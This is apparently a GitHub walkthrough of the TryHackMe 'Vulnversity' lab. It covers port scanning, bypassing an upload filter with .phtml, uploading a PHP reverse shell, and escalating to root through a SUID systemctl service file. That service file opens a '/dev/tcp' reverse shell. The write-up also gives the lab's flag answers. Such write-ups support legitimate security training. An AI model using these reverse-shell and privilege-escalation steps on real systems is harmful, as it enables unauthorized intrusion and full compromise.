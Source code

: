 # **TryHackMe Vulnversity**
*Walkthrough using Kali Linux by Leonidas Karagkounis*

## **Reconnaissance**
Start by using nmap to scan for ports and services
```
nmap -sV <target_ip> 
```
1. **Scan the box, how many ports are open?**  
```
6
```
2. **What version of the squid proxy is running on the machine?** 
```
3.5.12
```
3. **How many ports will nmap scan if the flag -p-400 was used?**
```
400
```
4. **Using the nmap flag -n what will it not resolve?**  
```
DNS
```
5. **What is the most likely operating system this machine is running?**
```
Ubuntu
```
6. **What port is the web server running on?** 
```
3333
```

## **Locating directories using Gobuster**
Running gobuster to find hidden directories
```
gobuster dir --url http://<target_ip>:3333 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
1. **What is the directory that has an upload form page?** 
```
/internals/
```

## **Compromise the webserver**
Visit <target_ip>/internal/

You can start uploading files to find the extension that is blocked
1. **Try upload a few file types to the server, what common extension seems to be blocked?**  
```
.php
```

Start FoxyProxy and BurpSuite, upload a file and send the intercept to the intruder. Select Sniper attack and add for payload :
- php
- php3
- php4
- php5
- phtml

Then clear § and add § on the filename="hello.§php§" and start the attack. The only difference is noticed on phtml extension.

2. **Run this attack, what extension is allowed?** 
```
.phtml
```

### **Getting a reverse shell**

- Download php-reverse-shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- Make a copy as php-reverse-shell.phtml. 

- Open the file and edit the $ip = '127.0.0.1' with your machine's ip. If you dont know what is your ip, type ifconfig and check the tun0 interface.

    *You can also change the $port = 1234 if you want to something else like 9001 for example which is what i did and if you follow along change it as well, otherwise make sure to change the commands later on with the appropriate port number.*

- Set up a netcat listener with the command :  
```
nc -nlvp 9001
```

- Upload the php-reverse-shell.phtml file to the webserver and go to the webpage 
```
http://<target_ip>:3333/internal/uploads/php-reverse-shell.phtml.
```
 
This will execute the script and return a reverse shell in your listener. 

### **Getting the user flag**
Start by typing cat /etc/passwd and it looks like we have one user at the end called bill.

3. **What is the name of the user who manages the webserver?** 
```
bill
```

Type 
```
cd /home/usr/bill
```
 Then 
 ```
 ls -al
 ``` 
 This reveals the user.txt flag. Type 
 ```
 cat user.txt
 ``` 
This should give you the user flag

4. **What is the user flag?** 
```
8bd7992fbe8a6ad22a63361004cfcedb
```

## **Privilege Escalation**
Start by typing 
```
find / -user root -perm /4000 2>/dev/null
```

1. **On the system, search for all SUID files. What file stands out?** 
```
/bin/systemctl
```

### **Getting a root shell**

- On your machine create a file called root.service. The content of the file should be this : 

        [Unit]
        Description=roooooooooot

        [Service]
        Type=simple
        User=root
        ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/9001 0>&1'

        [Install]
        WantedBy=multi-user.target


- Start a python http server using the command 
```
python3 -m http.server 8000
```

- On the target machine run the command  
```
find / -type d -maxdepth 2 -writable
``` 
This should reveal all writable directories. Use cd to get into one in our case cd /tmp

- Run the command 
```
wget http://<your_ip>:8000/root.service
```
This should get the root.service file from your machine to the target. 

- Stop the python server and start a listener with 
```
nc -nlvp 9001
```

- Use the command  
```
/bin/systemctl enable /tmp/root.service
```

- Use the command 
```
/bin/systemctl start root
```

- Now you should have a root shell on your listener

### **Geting the root flag**

Navigate into root folder by using 
```
cd /root
``` 
Type 
```
ls -al
``` 
You should see the root.txt flag. Check the content with 
```
cat root.txt
```

2. **Become root and get the last flag (/root/root.txt)**
```
a58ff8579f0a9270368d33a9966c7fd5
```
